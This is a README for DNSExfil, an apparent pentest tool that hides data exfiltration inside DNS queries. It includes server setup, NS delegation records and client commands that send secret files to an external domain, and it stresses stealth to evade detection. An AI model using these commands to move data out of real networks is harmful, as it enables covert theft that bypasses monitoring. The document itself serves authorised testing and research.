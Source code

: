 # __DNSExfil - DNS Tunneling Suite__
![Status](https://img.shields.io/badge/Status-Work%20In%20Progress%20--%20Available%20MVP-yellow)

__This code is a minimum viable product (MVP) for an [article in digitalwhisper.co.il](https://www.digitalwhisper.co.il/files/Zines/0x84/DW132-3-DNSExfil101.pdf).__

DNSExfil is a framework/cli-tool written in Python 3 (>3.8) aimed to exfiltrate data to a remote computer by encoding it to one (or more) DNS queries. Most DNS Tunneling solutions today don't give users the ability to get down to the nitty-gritty of the queries and change domain-building workflow (compression, encryption and encoding used to create the domains for the queries). The main purpose of DNSExfil is to be a solid baseline for pentesters who are looking for the ultimate control over every aspect of building and sending the DNS queries.

Currently, I've built this as a simple CLI tool but I'm planning on making it a full python package (as can be seen from some unused code and code that has yet to be implemented). Furthermore, pure implementations in Rust and JS are in order as well, so it can be run natively (Rust) and in Browsers (JS). 

## Research-Based - Exfiltrate Data over DNS like a pro.
a myriad of research papers were written about mitigating DNS Tunneling tools (like [iodine](https://github.com/yarrick/iodine) and [dnscat2](https://github.com/iagox86/dnscat2)). Most of them besmirch those tools, showing high-throughput of DNS queries that are easily detectable. A few were written with the emphasis on mitigating low-throughput of those data-exfiltrating DNS queries. DNSExfil is not meant to be fast, or furious. It's meant to be stealth and calculated, transmitting as little as possible, as delayed as possible, to avoid detection.

(will be adding research summary soon)


## Disclaimer
This tool can be used to naively send messages over DNS, but it could be used to exfiltrate data from a network. I'm  **not responsible for any misuse of the project**.

## Setup
### Installing Prerequisites

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install [dnslib](https://pypi.org/project/dnslib/), which is the only required package, really.

```bash
$ pip install dnslib
```
OR you can use the included 'requirements.txt' (which is totally overkill):
```bash
$ pip install -r requirements.txt
```

### Setting up the Domain Settings
Next, set up DNS records to delegate a subdomain to your server. For example, if your server's IP is `X.X.X.X` and you want to tunnel through the subdomain `t1.example.com`, then your DNS configuration will look like this: 

| Type | Name | Value              |
| ---- | ---- | ------------------ |
| NS   | t1   | `t1ns.example.com` |
| A    | t1ns | `X.X.X.X`          |

The A record is present because NS records don't accept IP addresses as values (only domains), so we made a domain (t1ns.) that references the IP address of the server and the new subdomain is a valid entry for the NS record. 

## Usage
### DNSExfil-Server
After installation, it is rather simple to use the tool. Running the server is as simple as:
```
$ python3 DNSExfil-Server.py t1.example.com
```
The default settings are to listen on UDP port 53 on 0.0.0.0, which should be enough for almost every usage. for more information, feel free to invoke the help using `-h`:
```
Server Settings:
  --protocol {UDP,TCP}  select protocol for the server
  --host 0.0.0.0        IP address of the listening server
  --port 53             Port of the listening server
  --max_connections 5   In TCP only: # of Maximum Connections allowed

Output Settings:
  -o FOLDER, --output FOLDER
                        Output to folder
```

### DNSExfil-Client
Using the client is super straight forward. You can pipe the data to it or select a file:
```
$ echo "Very Secret Data" | python3 DNSExfil-Client.py t1.example.com
```
or
```
$ python3 DNSExfil-Client.py secret_file.txt t1.example.com
```

### Setting up Encoding and Compression
Both the server and the client rely on the same options and arguments for compression and encoding.
**It is important that both will have the same compression/encoding arguments for proper decoding and de-compressing.**

```bash
Alphabet Settings:
  Change Encoding Settings

  --alphabet_preset {CASE_SENSITIVE,CASE_INSENSITIVE,HUMAN_READABLE,RFC4648,BASE58_BITCOIN,BASE58_RIPPLE,default}
                        select from a pre-made set of encodings
  -c ABCDEFGHIJ, --chars ABCDEFGHIJ
                        specify characters for the encoding
  -r A-Za-z, --range A-Za-z
                        specify range of ASCII characters for the encoding
  -rnd, --randomize     Randomize the order of the characters (recommended to use with -rs)
  -seed RANDOM_SEED, --random_seed RANDOM_SEED
                        Random seed used (does nothing without -r)

Domain Decryption Settings:
  --compress {bzip2,zlib,nocompress}
                        select from a selected set of compressions

```
